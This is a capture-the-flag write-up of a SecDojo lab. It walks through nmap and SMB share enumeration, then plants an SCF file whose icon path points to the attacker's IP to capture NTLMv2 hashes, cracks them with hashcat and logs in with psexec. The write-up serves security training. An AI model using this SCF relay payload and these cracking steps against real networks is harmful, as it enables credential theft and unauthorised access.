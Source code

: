 ```yaml
---
title: "SecDojo - T4lk2m3 Lab"
author: [Sesco]
subtitle: "T0m Machine Write Up"
date: "2023-01-01"
keywords: [Windows, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...
```



# Information

- **Name:** T4lk2m3 Lab - T0m Machine
- **Profile:** SecDojo
- **Difficulty:** Medium
- **Description:** The "T4lk to m3" lab, contains two Microsoft Windows machines. To achieve access and obtain the Flags, you will have to conduct an SMB relay attack on those machines. One of those machines contains some SCF files. Learn how to use SCF files to grab juicy pieces of information.


# Enumeration

## Nmap

Initial nmap scan.

```console
$ nmap -Pn -sC -sV 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:40 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00027s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2023-01-01T15:42:25+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-8EHFSR9B2UL
| Not valid before: 2022-12-31T15:36:07
|_Not valid after:  2023-07-02T15:36:07
| rdp-ntlm-info: 
|   Target_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Domain_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Computer_Name: WIN-8EHFSR9B2UL
|   DNS_Domain_Name: WIN-8EHFSR9B2UL
|   DNS_Computer_Name: WIN-8EHFSR9B2UL
|   Product_Version: 6.3.9600
|_  System_Time: 2023-01-01T15:41:45+00:00
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-01-01T15:41:45
|_  start_date: 2023-01-01T15:34:44
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WIN-8EHFSR9B2UL, NetBIOS user: <unknown>, NetBIOS MAC: 06:0f:3a:c9:f1:64 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-8EHFSR9B2UL
|   NetBIOS computer name: WIN-8EHFSR9B2UL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-01T15:41:45+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.01 seconds
zsh: segmentation fault  nmap -Pn -sC -sV 172.16.4.179
```

Discovered couple of ports and services one of them is SMB port, let's check the available shares.

```console
$ nmap -Pn -p 445 --script smb-enum-shares 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:48 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00031s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\172.16.4.179\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\172.16.4.179\compta: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\deepwin: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\orga: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Anonymous access: READ
|_    Current user access: READ
```

So there's seven available shares and it looks like the most suspicious shares are **compta**, **deepwin** and **orga** and they can be accessed anonymously.

One of the shares has a zip file, after downloading and unzipping the file I found another file **file.scf**.

![](./img-01.png)

```console
$ cat file.scf
[shell]
command=2
IconFile=\\172.31.31.144\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

## Exploitation

Now this is interesting the .SCF file can be used in **SMB Relay Attack** and that's because of its nature and that is when you browse to a location that contains SCF file the IconFile will be retrieved automatically.

The SMB Relay Attack requires us to set [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#:~:text=%3A%5CFY2018%5CFY2018-,UNC%20paths,well%20as%20v6%20are%20supported) path with our PWN machine IP address and in the PWN machine we'll try to listen and capture user's login credentials, and there's a module in metasploit that allow us to do that.

But before using the module we have to put our modified SCF file into the share and to do that we'll have to mount the share to one of our local folders, we can do that with this command.

```console
$ sudo mount.cifs //Remote_Machine_IP_Address/compta ./LocalFolder -o user=Anonymous,uid=$UID
```

```console
[shell]
command=2
IconFile=\\Our_IP_Address\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

All we have to do now is start listening and browse to the compta share with `smbclient` utility.

![](./img-02.png)

And that's our NTLMv2 hash for Administrator user which requires cracking, and so I did with `hashcat` utility.

```console
$ hashcat -m 5600 admin_ntlmv2 /usr/share/wordlists/rockyou.txt  -o cracked.txt
```

![](./img-03.png)

This is our password cracked **P@ssw0rd**, let's try and login to the windows machine using `psexec.py` utility.

![](./img-04.png)

That's it we are in.

## Root Flag

Proof of concept.

![](./img-05.png)

**Flag:** **`Tom_Sesco-68dzkyr35ix5gufsp0i3zttdm44e91y8`**

## Resources

- [SCF File Attacks 1](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) 
- [SCF File Attacks 2](https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/)
